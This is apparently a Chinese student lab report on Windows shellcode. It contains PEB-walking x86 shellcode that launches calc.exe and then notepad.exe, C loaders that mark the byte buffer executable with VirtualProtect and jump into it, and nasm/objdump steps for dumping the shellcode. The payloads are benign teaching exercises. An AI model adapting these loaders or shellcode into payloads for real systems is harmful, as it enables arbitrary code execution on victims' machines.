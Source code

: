 # 逆向工程与软件安全实验报告  
## shellcode相关
### 实验任务  
- [x] 给出shellcode能够成功运行  
- [x] 能从汇编源码编译通过并成功dump  
- [x] 搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理  
- [x] 修改shellcode功能为运行记事本程序notepad.exe  
- [ ] (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行  

### 实验过程  

##### 给出shellcode能够成功运行  
[shellcode源代码](https://www.exploit-db.com/shellcodes/48116)  
新建`calc.c`文件  
```C
    #include <windows.h>
    #include <stdio.h>

    char code[] = \
    "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
    "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
    "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
    "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
    "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
    "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
    "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
    "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
    "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
    "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
    "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
    "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
    "\x52\xff\xd0";//汇编生成

    int main(int argc, char **argv)
    {
    int (*func)();//函数指针
    func = (int(*)()) code;
    DWORD old_protect;
	VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
    (int)(*func)();
    }
```  
成功运行  
* 注意  
    1. 一定需要`.c`文件，`.cpp`文件会报强制类型转换相关错误(认真踩坑)  
    ![强制类型转换](./image/强制类型转换.png)  
    2. 关闭数据执行保护编译选项  
    ![数据执行保护](./image/数据执行保护.png)  
    

##### 能从汇编源码编译通过并成功dump  
Kali虚拟机中新建`win32-WinExec_Calc-Exit.asm`  
将汇编源码加入`.asm`文件  
```
nasm -f win32 win32-WinExec_Calc-Exit1.asm -o win32-WinExec_Calc-Exit1.o  
for i in $(objdump -D win32-WinExec_Calc-Exit1.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo  
```  
![汇编生成](./image/calc汇编.png)  

##### 解读shellcode原理  
[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)  


##### 修改shellcode功能为运行记事本程序notepad.exe  
对应汇编文件内容修改  
![修改汇编](./image/修改汇编.png)  
```
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o  
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```  
![汇编生成](./image/汇编生成.png)  
新建notepad.c文件  
```C
#include <windows.h>
#include <stdio.h>
//生成notepad.exe
char code1[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x65\x78\x65\x00\x68\x70\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89"
"\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08"
"\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x82"
"\xff\xff\xff\x31\xd2\x52\xff\xd0";
int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code1, sizeof(code1), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)())code1;
	(int)(*func)();
}
```  
成功运行

